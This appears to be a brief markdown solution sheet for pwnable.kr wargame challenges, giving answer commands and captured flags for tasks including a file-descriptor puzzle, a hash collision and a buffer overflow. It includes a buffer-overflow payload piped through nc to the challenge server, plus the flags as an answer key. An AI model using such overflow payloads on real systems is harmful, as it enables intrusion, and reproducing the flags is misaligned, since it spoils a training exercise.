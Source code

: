 ##### fd
answer: 4660 then input LETMEWIN
flag: mommy! I think I know what a file descriptor  is
##### collision
answer: ```./col $(python -c "print (('\xc8\xce\xc5\x06' * 4) + '\xcc\xce\xc5\x06')")```
flag: daddy! I just managed to create a hash collision :)
##### bof
answer: ``` (python -c "print 'a' * 52 + '\xbe\xba\xfe\xca')"; cat - ) | nc pwnable.kr 9000 ```  
flag: daddy, I just pwned a buFFer :)

##### flag
answer: "UPX...? sounds like a delivery service :)"

#####
##### Blackjack
answer: bet a negative answer  
flag: YaY_I_AM_A_MILLIONARE_LOL

338150
13371337
